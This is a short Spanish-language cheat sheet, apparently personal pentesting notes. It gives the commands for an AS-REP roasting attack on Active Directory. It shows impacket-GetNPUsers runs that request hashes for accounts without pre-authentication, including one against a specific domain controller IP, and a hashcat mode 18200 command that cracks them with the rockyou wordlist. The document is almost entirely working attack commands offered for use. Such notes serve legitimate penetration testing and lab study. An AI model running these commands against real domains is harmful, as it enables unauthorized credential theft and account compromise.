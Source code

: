 # ASREProstable 

Tags: #AD #ASREProstable #Impacket #Kali #Parrot #HashCat 

## Explotar con Impacket

```bash 
❯ impacket-GetNPUsers -no-pass -usersfile users.txt domain.corp/        # Ataque usando un lista de usuarios 

❯ impacket-GetNPUsers 'domain1.corp/user' -no-pass -dc-ip 18.116.10.36 -request

	# domain1.corp/user = Usuario vulnerable o lista de usuarios 
	# no-pass = No hay una contraseña 
	# dc-ip = Ip del DC

Notas:
	1. Tener la IP con el dominio en '/etc/hosts'
```

## Crackear el Hash obtenido 

```bash 
# Guardar y crackear el hash con 'Hashcat'
❯ hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force

	# m = Método por fuerza bruta
	# 18200 = Es un ASREProstable
	# hashes.asreproast = Archivo que contiene el hash 
	# rockyou = Diccionario a usar 
```